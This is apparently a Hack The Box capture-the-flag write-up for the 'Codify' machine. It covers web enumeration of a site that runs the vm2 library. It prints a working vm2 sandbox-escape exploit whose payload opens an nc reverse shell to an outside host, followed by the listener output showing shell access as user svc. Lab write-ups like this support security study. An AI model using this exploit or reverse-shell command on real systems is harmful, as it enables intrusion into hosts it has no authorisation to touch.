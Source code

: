 ## Web Enumeration ➡️

I checked port 80 and and I redirected to codify.htb domain name so I set the /etc/hosts file and I got the webpage →

![Untitled](Codify/Untitled%201.png)

while enumeartion in about tab I noticed this VM2 library and recon on it futher more on it →

![Untitled](Codify/Untitled%202.png)

I found the same version of vm2 exploit from internet here it is →

[https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 4444 >/tmp/f');
}
`

console.log(vm.run(code));
```
{: .nolineno}
{: .nolineno}

![Untitled](Codify/Untitled%203.png)

Same way I can get the reverse shell from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Codify]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.201] from (UNKNOWN) [10.10.11.239] 35584
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$
```
{: .nolineno}
{: .nolineno}